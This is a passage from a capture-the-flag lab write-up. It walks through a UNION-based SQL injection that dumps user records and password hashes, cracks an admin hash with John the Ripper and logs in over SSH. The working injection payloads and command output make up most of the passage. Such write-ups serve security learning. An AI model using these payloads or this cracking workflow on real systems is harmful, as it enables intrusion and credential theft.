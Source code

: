 ```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Revenge]
└─# python3 enum_database.py
id
username
_password
email
[-] Payload failed: 0 UNION ALL SELECT NULL,NULL,NULL,NULL,1,1,NULL,column_name FROM information_schema.columns WHERE table_name='system_user' LIMIT 1 OFFSET 4-- -
```

- Database `duckyinc`'s table `system_user` columns: `id`, `username`, `_password`, `email`

**Let's extract all data from table `system_user`!**
```py
payload = f"""0 UNION ALL SELECT NULL,NULL,NULL,NULL,1,1,NULL,CONCAT(id,':',username,':',_password,':',email) FROM system_user LIMIT 1 OFFSET {position}-- -"""
```

> Note: The `CONCAT()` is the string concatenation. You can display multiple columns' data in a single column.

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Revenge]
└─# python3 enum_database.py
1:server-admin:$2a$08${Redacted}:sadmin@duckyinc.org
2:kmotley:$2a$12${Redacted}:kmotley@duckyinc.org
3:dhughes:$2a$12${Redacted}:dhughes@duckyinc.org
[-] Payload failed: 0 UNION ALL SELECT NULL,NULL,NULL,NULL,1,1,NULL,CONCAT(id,':',username,':',_password,':',email) FROM system_user LIMIT 1 OFFSET 3-- -
```

**Nice! Let's crack those hashes!**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Revenge]
└─# john --wordlist=/usr/share/wordlists/rockyou.txt server-admin.txt            
[...]
{Redacted}         (server-admin)     
```

Hmm... I can only cracked `server-admin`'s hash.

**Let's use that password to SSH into the target machine!**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Revenge]
└─# ssh server-admin@$RHOSTS
[...]
server-admin@10.10.151.170's password:
[...]
################################################################################
#			 Ducky Inc. Web Server 00080012			       #
#	     This server is for authorized Ducky Inc. employees only	       #
#		   All actiions are being monitored and recorded	       #
#		     IP and MAC addresses have been logged		       #
################################################################################
Last login: Wed Aug 12 20:09:36 2020 from 192.168.86.65
server-admin@duckyinc:~$ whoami;hostname;id;ip a
server-admin
duckyinc
uid=1001(server-admin) gid=1001(server-admin) groups=1001(server-admin),33(www-data)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:90:cb:86:fd:07 brd ff:ff:ff:ff:ff:ff
```